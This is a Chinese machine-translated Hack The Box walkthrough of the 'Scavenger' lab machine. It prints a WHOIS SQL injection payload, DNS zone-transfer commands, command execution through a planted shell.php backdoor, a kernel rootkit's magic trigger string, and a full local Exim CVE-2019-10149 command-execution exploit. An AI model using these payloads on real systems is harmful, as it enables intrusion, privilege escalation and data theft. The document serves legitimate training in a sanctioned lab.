# [HTB]清道夫-报道

> 原文：<https://infosecwriteups.com/htb-scavenger-write-up-fee11d971774?source=collection_archive---------0----------------------->



欢迎来到清道夫专栏！这是一个高难度的盒子，有一些有趣的组件来完全启动这个盒子。对于初始外壳，我们需要利用 WHOIS SQLi 来发现更多 vhosts。然后，对 DNS 服务器进行区域转移以找到更多的域。接下来，其中一个域托管一个名为`shell.php`的脚本，我们将对其进行参数强制，以发现命令执行。对于用户升级，我们将需要做更多的寻宝游戏来找到用户的密码以收集`user.txt`文件。最后，对于根 shell，我们将利用预安装的 rootkit 来提升我们读取`root.txt`文件的权限。此外，还有一个意外的路由，通过 Exim SMTP 服务器从`shell.php`访问获得即时根访问。这个我最后也会讲到:)开始吧！



# 侦察

_________________________________________________________________

## Nmap

让我们从使用以下命令进行初始端口扫描开始:

```
$ nmap -Pn — open -sC -sV -p- -T4 10.10.10.155
```



值得注意的有趣端口:

*   **FTP(21/TCP)**—**不允许匿名登录*
*   **SMTP (25/TCP)** —找到的版本 [Exim 4.89](https://packetstormsecurity.com/files/153218/Exim-4.9.1-Remote-Command-Execution.html) 易受特定 RCE 的攻击；然而，它无法远程利用它。但是一旦我在机器上执行了一个命令，它就被利用了。这是一个意想不到的方法，我会告诉你如何做到这一点。
*   **WHOIS (43/TCP)** —这是一个 WHOIS 服务器，可以接受来自 WHOIS 客户端的数据。有趣的是看到这个端口是可用的。
*   **DNS (53/TCP)** —当 DNS 配置了 TCP 时，如果配置不正确，它很容易受到区域传输攻击。
*   **HTTP (80/TCP)** — Web 服务器

# 最初的立足点

_________________________________________________________________

## Whois SQLi 攻击(Whois-43/TCP)

从最初的扫描来看，WHOIS 服务器似乎是最有趣的。

```
**### WHOIS**
$ whois -h 10.10.10.155 -p 43 "scavenger.htb"
```



上述正常的 WHOIS 查询显示，它配置了`MariaDB10.1.37`。因为它使用数据库来检索数据，所以我们可以试验一下参数，看看我们是否能引起一些 SQL 错误来进一步攻击 SQLi。

```
**### WHOIS SQLi Check**
$ whois -h 10.10.10.155 -p 43 "scavenger.htb**'**"
```



在`"scavenger.htb'"`加上单引号导致了一个 SQL 错误。使用以下基于布尔的 SQLi 有效负载，我们可以转储数据库内容:

```
**### WHOIS SQLi Attack**
$ whois -h 10.10.10.155 -p 43 "scavenger.htb') or 1=1#"% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit [http://www.supersechosting.htb](http://www.supersechosting.htb)
% This query returned 4 object
   Domain Name: **SUPERSECHOSTING.HTB**
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: [http://www.supersechosting.htb](http://www.supersechosting.htb)***...snip...***The Registry database contains ONLY .HTB domains and
--   Domain Name: **JUSTANOTHERBLOG.HTB**
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: [http://www.supersechosting.htb](http://www.supersechosting.htb)***...snip...***The Registry database contains ONLY .HTB domains and
--   Domain Name: **PWNHATS.HTB**
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: [http://www.supersechosting.htb](http://www.supersechosting.htb)***...snip...***The Registry database contains ONLY .HTB domains and
--   Domain Name: **RENTAHACKER.HTB**
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: [http://www.supersechosting.htb](http://www.supersechosting.htb)***...snip...***
```

从攻击中，我们能够收集以下四(4)个额外的域:

*   **超级选择. htb**
*   **justanotherblog.htb**
*   **pwnhats.htb**
*   **renahacker.htb**

## DNS 区域传输(DNS-53/TCP)

接下来，我们可以检查 DNS 服务器是否容易受到区域转移的攻击。如果是这样，我们可以发现更多的子域。用所有找到的域创建一个文本文件:



我们可以使用下面的 bash 一行程序来检查域的区域转移:

```
**### Zone Transfer**
$ while read i; do dig AXFR $i [@10](http://twitter.com/10).10.10.155; done < domains.txt
```

除了`scavenger.htb`域名，其他域名都很脆弱，我们现在有更多的子域名可以玩。

```
; <<>> DiG 9.11.14-3-Debian <<>> AXFR scavenger.htb [@10](http://twitter.com/10).10.10.155
;; global options: +cmd
**; Transfer failed.**; <<>> DiG 9.11.14-3-Debian <<>> AXFR supersechosting.htb [@10](http://twitter.com/10).10.10.155
**supersechosting.htb**.       604800 IN    A       10.10.10.155
**ftp.supersechosting.htb**.   604800 IN    A       10.10.10.155
**mail1.supersechosting.htb**. 604800 IN    A       10.10.10.155
**ns1.supersechosting.htb**.   604800 IN    A       10.10.10.155
**whois.supersechosting.htb**. 604800 IN    A       10.10.10.155
**www.supersechosting.htb**.   604800 IN    A       10.10.10.155***...snip...***; <<>> DiG 9.11.14-3-Debian <<>> AXFR justanotherblog.htb [@10](http://twitter.com/10).10.10.155
**justanotherblog.htb**.       604800 IN    A       10.10.10.155
**mail1.justanotherblog.htb**. 604800 IN    A       10.10.10.155
**www.justanotherblog.htb**.   604800 IN    A       10.10.10.155***...snip...***; <<>> DiG 9.11.14-3-Debian <<>> AXFR pwnhats.htb [@10](http://twitter.com/10).10.10.155
;; global options: +cmd
**pwnhats.htb**.            604800  IN      A       10.10.10.155
**mail1.pwnhats.htb**.      604800  IN      A       10.10.10.155
**www.pwnhats.htb**.        604800  IN      A       10.10.10.155***...snip...***; <<>> DiG 9.11.14-3-Debian <<>> AXFR rentahacker.htb [@10](http://twitter.com/10).10.10.155
;; global options: +cmd
**rentahacker.htb**.        604800  IN      A       10.10.10.155
**mail1.rentahacker.htb**.  604800  IN      A       10.10.10.155
**sec03.rentahacker.htb**.  604800  IN      A       10.10.10.155
**www.rentahacker.htb**.    604800  IN      A       10.10.10.155***...snip...***
```

让我们将所有域添加到`/etc/hosts`中，这样我们就可以访问它们了。



## [www . superschosting . htb](http://www.supersechosting.htb)

这是一个静态页面，从这里找不到任何性感的东西。



## [www . just another blog . htb](http://www.justanotherblog.htb)

这只是一个图像，也没有什么有趣的发现。



## [www.pwnhats.htb](http://www.pwnhats.htb/)

这一页是关于卖帽子的。



从使用`Dirsearch`工具的目录暴力破解中，我们可以找到一个`INSTALL.txt`文件，该文件公开了已安装的 PrestaShop 1.7，一个开源的电子商务解决方案。



除此之外，没有什么真正有趣的东西可以继续攻击。

## [www.rentahacker.htb](http://www.rentahacker.htb)

这个网页似乎比其他网页更有趣，而且安装了 Wordpress。然而，普通凭证(例如 admin : password)并不能让我们进入管理登录门户。



在评论区有一个有趣的评论，这可能表明我们需要做进一步的发现。



## 远程命令执行—Shell.php

从区域转移中，还发现了`sec03.rentahacker.htb`子域。当我们浏览那个网址时，我们会看到一个有趣的页面。



在目录强制之后，我们发现了一个有趣的 PHP 脚本，叫做`shell.php`。

```
**### Dirsearch**
$ dirsearch.py -u [http://sec03.rentahacker.htb/](http://sec03.rentahacker.htb/) -e php,txt,html | grep 200
```



假设这个`shell.php` PHP 脚本可能是攻击者创建的后门，并且有一个我们可以执行命令的参数，我们使用`Burp Suite`来暴力破解它。首先，捕捉`http://sec03.rentahacker.htb/shell.php`并添加`?test=whoami`。然后将它移动到打嗝入侵者并添加`test`作为蛮力点。



使用 Kali 默认的`/usr/share/wordlist/dirb/common.txt`文件。


很快，我们可以看到`hidden`用不同于其他单词的长度来响应。



# 用户访问#1 — ib01c03

_________________________________________________________________

当我们检查响应时，可以看到`whoami`的命令输出。我们现在的用户是`ib01c03`。



当我们`cat`这个`shell.php`文件时，我们实际上可以确认 PHP 脚本。:)



此外，我们可以读取`/etc/passwd`文件来查看这个框中的可用用户。



进一步的枚举在`/config/config_inc.php`文件中找到了`ib01c03`用户的明文凭证。



虽然我们不能 SSH 到框中，但我们被允许访问 FTP 服务。此外，在 FTP 会话中允许目录遍历，以便我们可以移动到其他目录来浏览文件。



在`/var/mail`目录中，为`ib01ftp`用户找到了额外的凭证。



# 用户访问#2 — ib01ftp

_________________________________________________________________

此帐户似乎是另一个 FTP 帐户。我们可以直接登录 FTP 服务。一旦我们成功登录，我们可以看到`incidents`文件夹，有一些有趣的`access.log`和`pcap`文件以及一个`notes.txt`。



```
**$ cat notes.txt** After checking the logs and the network capture, all points to that the attacker knows valid credentials and abused a recently discovered vuln to gain access to the server!
```

在阅读了`notes.txt`之后，我们的下一个任务似乎是我们需要分析`access.log`和`pcap`文件来发现一些凭证并进一步利用这个盒子。

当我们分析`ib01c01_incident.pcap`文件时，我们可以很快意识到这是 pwnhats.htb 网页的连接和认证日志。



因为 pwnhats.htb 是用未加密的 HTTP 配置的，所以我们可以读取身份验证尝试并找到明文凭证以及管理页面 URL。按照对 pwnhats.htb 管理门户的 POST 请求之一，我们可以成功地发现以下凭证。



## 售前攻击尝试

根据`pcap`文件，当我们进入 pwnhats.htb 上的`/admin530o6uisg`页面时，我们可以看到`PrestaShop 1.7.4.4`登录页面。



不允许使用这些`pwnhats@pwnhats.htb : GetYouAH4t!`凭证登录或继续超时。此外，`PrestaShop`的版本很容易受到公开的 RCE [攻击](https://www.exploit-db.com/exploits/45964)——CVE-2018–19126，但是 PoC 脚本似乎不起作用。

# 用户访问# 3—ib01c 01(*密码重用)

_________________________________________________________________

为`PrestaShop`管理门户找到的密码实际上被`ib01c01`帐户重复使用。有了它，我们就可以登录 FTP 服务了。在中，我们可以读取`user.txt`文件来成功收集用户标志。



# 权限提升#1 — Rootkit

_________________________________________________________________

## PCAP 分析

从之前发现的`notes.txt`中得到提示，我们可以继续分析`ib01c01_incident.pcap`文件，看看攻击者做了什么。

在 TCP 流 20 中，攻击者被允许通过使用有效凭证来访问`PrestaShop`应用的管理页面。



TCP 流 20

在 TCP 流 21 中，我们可以看到“200 OK”被授予。



TCP 流 21

在 TCP 流 25 中，我们可以看到另一个 POST 请求，它带有 base64 编码的反向 shell 有效负载。



TCP 流 25

当我们解码上面突出显示的字符串时，我们可以清楚地看到`netcat`reverse shell 有效负载。



在 TCP 流 26 中，我们可以看到攻击者能够获得机器上的 RCE 和`wget``Makefile`和`root.c`文件。



TCP 流 26

在 TCP 流 27 中，我们可以看到`Makefile`的内容。



TCP 流 27

在 TCP 流 28 中，我们还可以看到`root.c`文件的源代码。



TCP 流 28

在源代码中还发现了一个硬编码的神奇值。



最后，TCP 流 29 是最后一个，它是不可读的文件。



TCP 流 29

因此，从`pcap`文件中找到的信息，我们可以很容易地使用可加载内核模块(LKM)谷歌并找到关于这个 rootkit 的资源。更多详细信息请点击查看[。但简而言之:](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)

> 当一个进程向我们的特殊设备写入一个神奇的字符串时，我们的 LKM 会给这个进程一个根凭证。您可以用许多不同的方式改变这种方法。例如，另一种经典的方法是编写您想要授予权限的进程的`*PID*`。

资源页面中的 PoC 代码似乎与`root.c`文件完全相同。我们可以看到同样的神奇价值。



## root.ko

此外，在`ib01c01`用户 FTP 访问中，有一个隐藏的文件夹`...`，在那里可以找到`root.ko`文件。



根据 PoC 页面，当通过`Makefile`编译`root.c`时，它将创建`rook.ko`文件。当它通过以下指令加载时:



然后，它会在`/dev`文件夹下创建一个名为`/dev/ttyR0`的新设备。创建后，必须使用以下命令修改其权限:



配置完成后，我们可以通过向设备提供一个神奇的值，在 root 用户的上下文中运行一个命令。资源页面中的概念验证如下:



知道了这一切，我们首先可以检查的是攻击者是否已经在盒子上安装了 rootkit，特别是在盒子中发现了`root.ko`文件。为此，我们可以简单地查询`/dev/ttyR0`。(**对于我自己，我使用 PoC 页面在我的本地机器上创建了这个 rootkit，以了解它是如何编译、安装、执行等等的更多信息。我强烈推荐这么做:]* )

```
GET /shell.php?hidden=ls+-la+/dev/+|+grep+ttyR   **      # URL-encoded**
```



厉害了，我们可以看到`/dev/ttyR0`已经在盒子里创建好了，还配置了`0666`权限。现在，让我们尝试使用找到的神奇单词“g0tR0ot”执行一个命令，看看我们是否可以在 root 的上下文中执行它。

```
GET /shell.php?hidden=echo+"g0tR0ot"+>+/dev/ttyR0+%26%26+id
```



## 反编译 root.ko(使用的工具:Ghidra)

嗯……没用。这个神奇的词可能不是“g0tR0ot”让我们下载`root.ko`文件，通过反编译对它做进一步的分析。



我们可以使用名为 [*Ghidra*](https://ghidra-sre.org/) 的反编译器来完成我们的目标。创建一个新项目并导入我们的`root.ko`文件。



然后，双击文件名开始反编译。我只是用默认设置来分析文件。



然后，我们想看看`root_write()`函数，看看“magic”值发生了什么变化。我们可以看到 Ghidra 成功反编译了文件；然而，我们可以注意到变量被转换成了局部指针。为了便于查看，我使用 IDA Pro 反汇编程序查找变量名，将这些指针转换为变量名。



Ghidra —反编译 root.ko



IDA Pro —查找变量名

现在，在 *Ghidra* 中将这些指针值重命名为变量名。一旦我做到了这一点，我还将以下变量的十六进制值转换为 ASCII 码:

```
* a = 0x743367 (ASCII -> "t3g")                   **# g3t**
* b = 0x76317250 (ASCII -> "v1rP")                **# Pr1v**
* magic = 0x746f3052743067 (ASCII -> "to0Rt0g")   **# g0tR0ot** *(*Note: HEX values are Little Endian)*
```



同样，我们可以看到`snprinf()`函数正在用`a` + `b`覆盖`magic`值，也就是“g3tPr1v”我们可以确认这是否是触发 rootkit 的新的`magic`字符串。

```
GET /shell.php?hidden=echo+"g3tPr1v"+>+/dev/ttyR0+%26%26+id+%26+ifconfig
```



完美！这是正确的`magic`字符串，现在我们可以作为根用户执行命令。我们可以读取`root.txt`文件来完成这个盒子。



# 权限提升#2 —进出口 SMTP

_________________________________________________________________

因此，第二个权限提升部分是通过安装在机器中的 Exim SMTP 服务器。这是一种意想不到的方式，漏洞概念验证比盒子发布晚了一点。详细的 Exim 4.9.1 远程命令执行漏洞(CVE-2019–10149)可以在[这里](https://packetstormsecurity.com/files/153218/Exim-4.9.1-Remote-Command-Execution.html)找到。



利用概念验证

这种利用是可能的，因为:



这个漏洞看起来非常简单，安装在清道夫盒子中的 Exim SMTP 服务器版本很容易受到攻击。



我检查了远程攻击是不可能的；然而，本地利用这一点是可能的，这意味着我们可以在从`shell.php`获得 RCE 后利用这一攻击获得根用户访问权。

```
**### Exim SMTP Exploit PoC Code**
touch /dev/shm/bigb0ss;(sleep 1 ; echo HELO bigb0ss ; sleep 1 ; echo 'MAIL FROM:<>' ; sleep 1 ; echo 'RCPT TO:<${run{\x2Fbin\x2Fsh\x09-c\x09\x22cat\x09\x2Froot\x2Froot.txt\x3E\x3E\x2Fdev\x2Fshm\x2Fbigb0ss\x22}}[@localhost](http://twitter.com/localhost)>' ; sleep 1 ; echo DATA ; sleep 1 ; echo "Received: 1" ; echo "Received: 2" ; echo "Received: 3" ; echo "Received: 4" ; echo "Received: 5" ; echo "Received: 6" ; echo "Received: 7" ; echo "Received: 8" ; echo "Received: 9" ; echo "Received: 10" ; echo "Received: 11" ; echo "Received: 12" ; echo "Received: 13" ; echo "Received: 14" ; echo "Received: 15" ; echo "Received: 16" ; echo "Received: 17" ; echo "Received: 18" ; echo "Received: 19" ; echo "Received: 20" ; echo "Received: 21" ; echo "Received: 22" ; echo "Received: 23" ; echo "Received: 24" ; echo "Received: 25" ; echo "Received: 26" ; echo "Received: 27" ; echo "Received: 28" ; echo "Received: 29" ; echo "Received: 30" ; echo "Received: 31" ; echo "" ; echo "." ; echo QUIT) | nc 127.0.0.1 25*(*Disclaimer: During this exploit, I was having many syntax errors, and CurioCT was a hero to help me to fix it. Thanks mate!)*
```

因此，一旦被利用，它会将`root.txt`文件转换为`/dev/shm/bigb0ss`文件。由于`bigb0ss`文件将在当前用户的上下文中创建，我们可以直接读取该文件:)



一旦通过`Burp`运行，我们可以看到来自服务器的有希望的响应。



事实上，它在`/dev/shm`文件夹下创建了名为`bigb0ss`的文件。



而当我们`cat`这个文件时，我们可以成功地读取`root.txt`标志。

# 结论

_________________________________________________________________

就像这个盒子的名字一样，为了完全破坏这个盒子，需要寻找很多线索并获得不同级别的访问权限。我真的很喜欢这个盒子，特别是用于`pcap`文件分析和利用预装的 rootkit 来获得 root 访问权限。如果你准备好了这一部分，我真的很感谢你阅读一个长的演练。感谢阅读！:)

